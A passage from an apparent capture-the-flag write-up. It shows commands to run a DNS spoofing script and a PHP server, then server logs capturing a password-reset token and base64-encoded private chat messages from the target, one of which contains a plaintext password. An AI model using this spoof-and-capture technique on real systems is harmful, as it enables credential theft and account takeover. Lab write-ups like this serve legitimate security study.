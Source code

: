 With all preparations met we set up our dns server again and also a php webserver, serving our custom `password-reset.php`

```php
$ sudo python dns_spoof.py --port 53 --udp
```

```php
$ sudo php -S 0.0.0.0:80
```

Now we execute our bash script again and wait for a connection.

```php
$ sudo ./forward_and_reset.sh
```

After some time we get multiple messages back on our webserver.

```php
$ sudo php -S 0.0.0.0:80
[Thu Aug 12 07:50:29 2021] PHP 7.4.21 Development Server (http://0.0.0.0:80) started
[Thu Aug 12 07:50:41 2021] 10.129.68.20:26004 Accepted
[Thu Aug 12 07:50:41 2021] 10.129.68.20:26004 [200]: GET /password-reset.php?token=5af6187f0e8a76bd73019b7b6c7302579314582fc74a591d3d012ee866c5369f2cf8bef6035cbb3fe3c2b785bd6f7c0aebcfe7b1bf06de65c6f3b84fe6a2b896
[Thu Aug 12 07:50:41 2021] 10.129.68.20:26004 Closing
[Thu Aug 12 07:50:42 2021] 10.129.68.20:15767 Accepted
[Thu Aug 12 07:50:42 2021] 10.129.68.20:15767 [404]: GET /favicon.ico - No such file or directory
[Thu Aug 12 07:50:42 2021] 10.129.68.20:15767 Closing
[Thu Aug 12 07:50:42 2021] 10.129.68.20:36370 Accepted
[Thu Aug 12 07:50:42 2021] 10.129.68.20:36370 [404]: GET /newuser?b64=eyJfaWQiOjEsInVzZXJuYW1lIjoiQWRtaW4iLCJzdGF0dXMiOnsic3RhdGUiOiJvbmxpbmUifX0= - No such file or directory
[Thu Aug 12 07:50:42 2021] 10.129.68.20:36370 Closing
[Thu Aug 12 07:50:45 2021] 10.129.68.20:33050 Accepted
[Thu Aug 12 07:50:45 2021] 10.129.68.20:33050 [404]: GET /privat?b64=eyJzZW5kZXJfaWQiOjE1LCJjb250ZW50IjoiSSBoYXZlIG5ldmVyIGhlYXJkIG9mIEZhbmZlc3QsIiwicm9vbUlkIjoxNSwiX2lkIjoyNTAxfQ== - No such file or directory
[Thu Aug 12 07:50:45 2021] 10.129.68.20:33050 Closing
[Thu Aug 12 07:50:45 2021] 10.129.68.20:21063 Accepted
[Thu Aug 12 07:50:45 2021] 10.129.68.20:21063 [404]: GET /global?b64=eyJzZW5kZXJfaWQiOjEzLCJjb250ZW50IjoiSSdtIG5vdCAgYSBodWdlIGZhbiBvZiBHb29nbGUsIGJ1dCBJIHVzZSBpdCBhIGxvdCBiZWNhdXNlIEkgaGF2ZSB0by4gSSB0aGluayB0aGV5IGFyZSBhIG1vbm9wb2x5IGluIHNvbWUgc2Vuc2UuIiwicm9vbUlkIjoiZ2xvYmFsIiwiX2lkIjoyNTAyLCJ1c2VybmFtZSI6IlBlcGUifQ== - No such file or directory
[Thu Aug 12 07:50:45 2021] 10.129.68.20:21063 Closing
[Thu Aug 12 07:51:04 2021] 10.129.68.20:31586 Accepted
[Thu Aug 12 07:51:04 2021] 10.129.68.20:31586 [404]: GET /privat?b64=eyJzZW5kZXJfaWQiOjIsImNvbnRlbnQiOiJIZWxsbyBEYXZpZCwgSSd2ZSBhZGRlZCBhIHVzZXIgYWNjb3VudCBmb3IgeW91IHdpdGggdGhlIHBhc3N3b3JkIGBOV0JGY1NlM3dzNFZEaFRCYC4iLCJyb29tSWQiOjIsIl9pZCI6MjUwM30= - No such file or directory
[Thu Aug 12 07:51:04 2021] 10.129.68.20:31586 Closing
[Thu Aug 12 07:51:36 2021] 10.129.68.20:20377 Accepted
[Thu Aug 12 07:51:36 2021] 10.129.68.20:20377 [404]: GET /global?b64=eyJzZW5kZXJfaWQiOjExLCJjb250ZW50IjoiQXd3d3cgeWlwIHlpcCIsInJvb21JZCI6Imdsb2JhbCIsIl9pZCI6MjUwNCwidXNlcm5hbWUiOiJMdWNpbGxlIn0= - No such file or directory
[Thu Aug 12 07:51:36 2021] 10.129.68.20:20377 Closing
[Thu Aug 12 07:51:36 2021] 10.129.68.20:20705 Accepted
[Thu Aug 12 07:51:36 2021] 10.129.68.20:20705 [404]: GET /privat?b64=eyJzZW5kZXJfaWQiOjEzLCJjb250ZW50IjoiSSBsb3ZlIHRvIGRhbmNlIGEgbG90LiBIb3cgYWJvdXQgeW91PyIsInJvb21JZCI6MTMsIl9pZCI6MjUwNX0= - No such file or directory
[Thu Aug 12 07:51:36 2021] 10.129.68.20:20705 Closing
[Thu Aug 12 07:52:16 2021] 10.129.68.20:44371 Accepted
[Thu Aug 12 07:52:16 2021] 10.129.68.20:44371 [404]: GET /privat?b64=eyJzZW5kZXJfaWQiOjIsImNvbnRlbnQiOiJIZWxsbyBEYXZpZCwgSSd2ZSBhZGRlZCBhIHVzZXIgYWNjb3VudCBmb3IgeW91IHdpdGggdGhlIHBhc3N3b3JkIGBOV0JGY1NlM3dzNFZEaFRCYC4iLCJyb29tSWQiOjIsIl9pZCI6MjUwNn0= - No such file or directory
[Thu Aug 12 07:52:16 2021] 10.129.68.20:44371 Closing
[Thu Aug 12 07:52:27 2021] 10.129.68.20:19695 Accepted
```